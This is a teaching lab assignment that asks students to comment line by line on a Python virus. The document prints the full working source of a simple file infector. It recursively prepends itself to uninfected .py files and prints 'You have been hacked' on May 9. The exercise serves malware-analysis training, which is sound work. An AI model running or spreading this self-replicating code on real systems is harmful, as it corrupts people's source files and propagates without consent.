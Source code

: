 # Ops Challenge: Python Malware Analysis

## Overview

The ability to read code written by others is a valuable skill to carry into your new career. Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

## Scenario

Last week, a GlobeX engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words "You have been hacked" written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The GlobeX board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Objectives

Copy the below Python script to your public GitHub repo. Do not execute this script in your Ubuntu VM used for class. If you wish to execute this script, either backup your VM using VirtualBox Snapshot or create a separate VM for testing.

```python
#!/usr/bin/python
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print "You have been hacked"

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

```

Perform an analysis of the Python-based code.

- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

## Stretch Goals (Optional Objectives)

Pursue stretch goals if you are a more advanced user or have remaining lab time.

In your submission, include comments towards the bottom explaining the below:

- Identify all the core Python/coding tools used by this script, e.g. functions.
- What kind of malware is this? Define this type of malware in your own words.
- How well is this code written? Would you have done something differently to achieve the same objective?

## Submission Instructions

- When you are ready to submit your shell script for grading, ACP it from VS Code to your **public** [GitHub](https://github.com/){:target="_blank"} repository. Name the file according to your course code and assignment, e.g. `ops-301d1: Challenge 01`.
- Copy the URL to your GitHub file and paste below as your submission. Add a comment in your Canvas assignment which includes the following:
  - A question within the context of today's lab assignment
  - An observation about the lab assignment, or related 'Ah-hah!' moment
  - How long you spent working on this assignment

